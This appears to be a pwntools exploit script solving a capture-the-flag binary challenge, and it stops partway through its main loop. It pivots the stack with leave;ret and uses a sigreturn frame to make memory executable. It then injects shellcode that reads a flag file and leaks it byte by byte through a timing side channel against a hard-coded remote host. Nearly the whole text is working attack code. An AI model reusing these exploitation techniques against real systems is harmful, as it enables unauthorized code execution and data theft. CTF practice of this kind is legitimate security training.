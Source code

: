 ```python
bss=0x0404060
leave_ret=0x000000000040136c
mov_rax_15_ret=0x401193 
syscall_ret=0x000000000040118a


def pwn(pos, char):
	ru("easyhack\n")

	sigframe = SigreturnFrame()
	sigframe.rax = constants.SYS_mprotect
	sigframe.rdi = 0x404000
	sigframe.rsi = 0x500
	sigframe.rdx = 7
	sigframe.rsp = bss+0xf8+0x10
	sigframe.rip = syscall_ret
	shellcode=shellcraft.open("flag")
	shellcode+=shellcraft.read(3,bss+0x500,0x50)
	shellcode+= F'''
		cmp byte ptr[rsi+{pos}], {char}
		jz loop
		ret
		loop:
		jmp loop
	'''
	#F8
	payload=p64(mov_rax_15_ret)+p64(syscall_ret)+bytes(sigframe)+p64(0)+p64(bss+0xf8+0x10+0x10)+asm(shellcode)
	sl(payload)
	ru("Do u know what is SUID?")
	#mydbg()
	payload=b'a'*0x2a+p64(bss-0x8)+p64(leave_ret)
	sl(payload)
	#pause()	

possible_list = "-0123456789abcdefghijklmnopqrstuvwxyz{}"
flag = ""
index = 0
last = 'a'
while True:
    # 逐字符爆破
    update = False
    # 对于每个字符，遍历所有打印字符 (ascii 码从 32 到 127) 
    for ch in range(32,127):
        p=remote("47.108.206.43",24921)
        #p = process("./chall")
        # 远程比较容易断，可以多次连接
        '''
        for i in range(10):
            try:
                sh = remote("1.1.1.1", "11111")
                break
            except:
                sleep(3)
                continue
        '''
        pwn(index, ch)
        start = time.time()
        try:
            p.recv(timeout=2)
        except:
            pass
        end = time.time()
```